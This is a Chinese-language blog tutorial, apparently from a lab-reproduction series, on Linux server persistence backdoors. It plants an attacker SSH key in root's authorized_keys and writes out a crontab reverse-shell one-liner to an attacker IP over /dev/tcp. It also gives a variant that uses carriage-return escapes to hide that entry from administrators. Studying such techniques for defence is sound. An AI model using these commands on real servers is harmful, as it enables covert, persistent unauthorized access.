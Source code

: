 ```yaml
---
title: linux 服务器常见的留后门方式（二）
date: 2022-4-2 23:36:35
tags: [Backdoor,Linux,Kali]
categories: 
 - [CyberSecurity,后门]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682441841/Typera/2023/04/7e00f34b8462535fcbd72b5a18b714e9.png
---
```


:::primary
整理好了搭环境的文章：[LINUX后门复现环境搭建](https://blog.sycamore.top/2022/03/21/LINUX%E5%90%8E%E9%97%A8%E5%A4%8D%E7%8E%B0%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/)
:::

攻击者在通过各种手段获得服务器的控制权之后，通常会在服务器上布置一些脚本、进程、链接，即所谓的**后门**。其目的是，方便攻击者以后对该服务器进行持久性的攻击。

其中，在linux服务器上留后门的常见技术，**本文中会提及**如下几种：
- SSH公钥免密
- crontab后门
...

## SSH公钥免密

简而言之，**SSH公钥免密**就是，将**攻击者**生成的 **ssh公钥**写到**目标服务器**的`/root/.ssh/authorized_keys`中（手动在目标机上完成注册），
然后**攻击者**就可以利用对应的**私钥**免密登录。

**实现：**
1. 使用 **Xshell** 的 工具 -> 新建用户密钥生成向导，完成**ssh公钥、私钥**的生成：![image-20230426010853712](https://res.cloudinary.com/sycamore/image/upload/v1682442537/Typera/2023/04/0c7400e842c42ccbcd324c9147cf6c24.png)
（填入密码)
<br>
2. 保存生成的公钥文件（id_rsa_2048.pub），传到**目标服务器**上，![image-20230426010925673](https://res.cloudinary.com/sycamore/image/upload/v1682442569/Typera/2023/04/8a2edc41bc3463490d0617bcbbd9acd1.png)
<br>
3. 寻找 **authorized_keys** 文件，命令`find -name authorized_keys`，
如果没有，就通过命令`touch /root/.ssh/authorized_keys`创建。
<br>
4. 命令`ssh-keygen -t rsa`开启免密登录功能，
<br>
5. 通过命令`cat 公钥路径 >> /root/.ssh/authorized_keys`把公钥写入到**authorized_keys**，完成注册
<br>
6. 修改文件权限`chmod 600 ~/.ssh/authorized_keys`
`chmod 700 ~/.ssh`
<br>



7. 攻击者使用**Xshell**生成的**私钥**和之前填写的**密码**，登录目标服务器![image-20230426010955314](https://res.cloudinary.com/sycamore/image/upload/v1682442599/Typera/2023/04/f0b36186750c7e6ae6e0cfb6e31536aa.png)![image-20230426011015095](https://res.cloudinary.com/sycamore/image/upload/v1682442619/Typera/2023/04/3707348bcf16ceccd18bb0594ff0933d.png)

## crontab后门

**Crond**服务启动后，会**定期**（默认一分钟检查一次）检查它的配置文件中，是否有要执行的任务。
如果有，就会根据**预先设定**的**定时任务规则**自动执行该任务。
crontab是用来定期执行程序的命令，
我们可以通过**crontab**命令制造定时后门：
`(crontab -l;echo '*/60 * * * * exec 9<> /dev/tcp/192.168.158.132/2333;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i')|crontab -`

**解释：**
`echo '*/60 * * * *'`：设定每60分钟执行一次；
`exec 9<>/dev/tcp/192.168.158.132/2333`：利用bash提供的功能，对`/dev/tcp/`开头的字符串进行**解析**，指定**服务器IP**为：192.168.158.132（**攻击机**IP），**端口号**为 2333，指定描述符为9，建立网络连接；
`exec 0<&9;exec 1>&9 2>&1;`：**文件描述符** 0：stdin，1：stdout，把标准输入输出**都**重定向到描述符9；
`/bin/bash --noprofile -i`：开一个Shell。
其实就是利用 Bash **反弹**一个**Shell**到指定的攻击者IP

（ubuntu默认**没开**bash的网络重定向选项，需要加上`–enable-net-redirections`重新编译bash）

**隐藏：**
但是这样的一个后门，管理员直接执行`crontab -l`就能看到我们设定的定时任务。
![image-20230426011055514](https://res.cloudinary.com/sycamore/image/upload/v1682442659/Typera/2023/04/e8f07ae16e6573488c17eeea6f3339f2.png)
这个命令其实是在读取 `/var/spool/cron/crontabs/root`文件。
所以，我们可以利用cat的一个缺陷，使用一些**转义字符**，比如 \r 回车符 \n 换行符 \f 换页符，来**隐藏**我们不想让管理员看到的命令：
`(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/192.168.158.132/2333;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -`
![image-20230426011110789](https://res.cloudinary.com/sycamore/image/upload/v1682442674/Typera/2023/04/0af7f80743588f2bae6b80f3903e55c6.png)但是，若是使用`cat -A /var/spool/cron/crontabs/root`还是可以看到我们隐藏的东西的。
